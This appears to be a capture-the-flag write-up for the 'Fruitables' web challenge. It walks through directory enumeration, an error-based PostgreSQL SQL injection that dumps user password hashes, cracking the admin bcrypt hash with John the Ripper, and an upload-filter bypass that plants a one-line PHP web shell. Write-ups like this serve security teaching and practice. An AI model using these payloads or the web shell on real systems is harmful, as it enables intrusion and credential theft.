

# Fruitables

A website about fruit? Probably no vulnerabilities there.. Move along everybody!

# Flag
```
INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}
```

# Solution
I explored all the pages but seemed to offer nothing of interest.


Enumerate endpoints and directories using `dirsearch`:

```bash
dirsearch -u https://fruitables-0.ctf.intigriti.io/

...
# Interesting results:
[21:18:09] 200 -    7KB - /account.php
[21:18:57] 301 -  253B  - /uploads  ->  http://fruitables-0.ctf.intigriti.io/uploads/
...
```

Browsing to `/account.php` shows a registration page, but trying to register prompts us that registration is closed and only allows us to login.


After conducting some fuzzing, I found an SQLI vulnerability when the username `bob'` is input.

```
Fatal error: Uncaught PDOException: SQLSTATE[42601]: Syntax error: 7 ERROR: unterminated quoted string at or near "'bob''" LINE 1: SELECT * FROM users WHERE username = 'bob'' ^ in /var/www/html/auth/fruitables_login.php:11 Stack trace: #0 /var/www/html/auth/fruitables_login.php(11): PDO->query('SELECT * FROM u...') #1 {main} thrown in /var/www/html/auth/fruitables_login.php on line 11
```

The nature of the error hints that the database is PostgreSQL. We can craft a payload that extracts data through error messages (reference from [portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)):

```
bob'+UNION+SELECT+CAST((SELECT+password+FROM+users+LIMIT+1+OFFSET+2)+AS+int),'2','3','4','5','6
```


Changing the LIMIT and OFFSET value, we can map out the `users` table as such:
```
| username      | password                                                      |
| ------------- | ------------------------------------------------------------- |
| cryptocat     | y0/HlOtAkyWN1KzjKOQlge2uyHYEHEfQV3ynFBTV/nvfM5IS/x6Sq         |
| invincible    | y0/avsmtl2dS2XVcRWT6E5OzrnUg8FU1dg6RvYd/9KTmcO0BctXGxa        |
| tjfry_admin   | $2y$10$buhvcTHdjqnb2r0L15ilJefOlGTe1rpD31685K02KfOk7xizNisiy  |
```

We can use John the Ripper to crack the hash of `tjfry_admin`:

```bash
john --wordlist=/opt/rockyou.txt tjfry_admin.txt
```
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:10 0% 0g/s 260.6p/s 260.6c/s 260.6C/s dragonball..outlaw
0g 0:00:00:47 0% 0g/s 264.1p/s 264.1c/s 264.1C/s nesha..100689
futurama         (?)
1g 0:00:00:49 100% 0.02014g/s 263.9p/s 263.9c/s 263.9C/s melbourne..090990
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Logging in with the credentials (`tjfry_admin`:`futurama`), we are redirected to the Admin Dashboard.


The file upload feature can potentially be exploited to upload a malicious PHP script?
After trying to upload some files, we learn that it only accepts JPEG and PNG files. These files are then renamed and available in `/uploads/`.

I had to utilise several bypass techniques to upload my PHP script, namely:
1. Specifying filename as `test.jpg.php`
2. Start file with JPEG magic bytes, then include PHP code under

```php
#JPEG magic bytes here..

<?php system($_REQUEST['cmd']); ?>  # execute commands in `cmd` query parameter
```


After the file is successfully uploaded, browse to it under the `/uploads/` folder and append a `cmd` query parameter to execute arbitrary commands on the target. Subsequently, we can find the name of the flag file and read its contents.

